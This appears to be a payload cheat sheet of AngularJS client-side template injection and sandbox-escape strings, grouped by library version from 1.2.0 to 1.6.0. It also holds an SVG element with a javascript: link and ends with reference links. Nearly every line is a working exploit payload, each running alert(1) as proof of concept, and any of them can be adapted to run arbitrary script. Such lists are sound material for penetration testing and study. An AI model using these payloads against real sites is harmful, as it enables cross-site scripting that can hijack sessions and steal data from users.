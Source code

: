 

#### 1.3.2 and below 

`{{7*7}}`


'a'.constructor.fromCharCode=[].join;
'a'.constructor[0]='\u003ciframe onload=alert(/Backdoored/)\u003e';



{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=""')+''
}}




{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=alert(1)')+''
}}


`{{constructor.constructor('alert(1)')()}}`


{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}



{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}



{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}



{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}



{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}



{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}



{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

    

{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}


#### 1.3.3 

As literal object: `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(Evaluated Object Literal)');}}`

As Array: `{{x = [''.constructor.prototype]; x[0].charAt=[].join; $eval('x=alert(Evaluated Array)');}}`

Versions 1.3.0 - 1.5.7:

{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}


Versions 1.2.20 - 1.2.29:

{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}


Version 1.2.19:

{{c=toString.constructor;p=c.prototype;p.toString=p.call;["a","alert(1)"].sort(c)}}


Versions 1.2.6 - 1.2.18:

{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}


Versions 1.2.0 - 1.2.5:

{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}


SVG

<svg>
  <a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
    <circle r="400"></circle>
    <animate attributeName="xlink:href" begin="0" from="javascript:alert(1)" to="&" />
  </a>
</svg>
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}


Angular 1.6.0

<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>
{{0[a='constructor'][a]('alert(1)')()}}



http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html
https://github.com/angular/angular.js/issues/14939
https://github.com/angular/angular.js/pull/11290
